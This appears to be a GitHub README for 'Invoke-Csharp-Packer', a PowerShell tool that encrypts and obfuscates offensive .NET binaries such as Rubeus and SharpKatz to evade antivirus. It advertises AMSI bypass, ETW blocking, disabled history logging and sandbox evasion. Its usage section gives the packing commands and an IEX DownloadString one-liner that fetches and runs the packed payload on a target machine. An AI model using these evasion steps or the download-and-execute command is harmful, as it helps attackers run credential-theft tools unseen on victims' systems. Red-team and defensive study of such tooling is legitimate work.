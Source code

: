 ### Invoke-Csharp-Packer.ps1
--------------------------------------
'Invoke-Csharp-Packer' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

> FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
> USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. rubeus.exe, sharpkatz.exe, winpeas.exe) stored locally or on a remote web server.
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
``` 
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
PS C:\> Invoke-Packed-NET-Executable "argument1","argument2","argument3",...
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
PS C:\> Invoke-Packed-NET-Executable "argument1","argument2","argument3",...
``` 

> LICENSE
  - GNU General Public License v3.0
